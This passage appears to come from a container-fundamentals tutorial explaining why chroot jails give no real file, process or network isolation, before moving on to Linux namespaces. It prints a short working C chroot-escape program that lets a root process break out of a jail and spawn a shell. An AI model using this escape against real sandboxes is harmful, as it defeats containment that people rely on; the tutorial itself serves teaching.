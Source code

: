 Let's take a look at the "isolation" a jail provides.

**The current working directory is unchanged** when calling `chroot(2)` via a syscall. Although your absolute paths are different now, relative paths can still refer to files outside of the new root.

Only priviledged processes with the `CAP_SYS_CHROOT` capability are able to call `chroot`.

Calls to `chroot` do not stack. It will override the current jail. So a root user could escape jail with a program like:

```c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
    mkdir(".out", 0755);                        //Create a new folder
    chroot(".out");                             //Make it the new root, removing the old jail
    chdir("../../../../../");                   //Changed the working directory to a location outside of the jail
    chroot(".");                                //Made it the new root
    return execl("/bin/bash", "-i", NULL);
}
```

> Did we need to create a new jail before changing the working directory outside of the jail? Could we not have used the current jail?

So, **`chroot` doesn't give isolation of the file system.**

We can sneak peak outside of a jail from a process perspective:

```console
$ mkdir /proc
$ mount -t proc proc /proc
$ ps aux
...
```

There is no process isolation at all. We can even kill processes outside of the jail.

We can sneak peak out of a jail from a network perspective:

```console
$ mkdir /sys
$ mount -t sysfs sys /sys
$ ls /sys/class/net
eth0 lo
```

There is no network isolation either.

This lack of isolation is a security risk - and doesn't meet the criteria for a container to be isolated.

How do we address this? Using **Linux namespaces**.

## Linux Namespaces
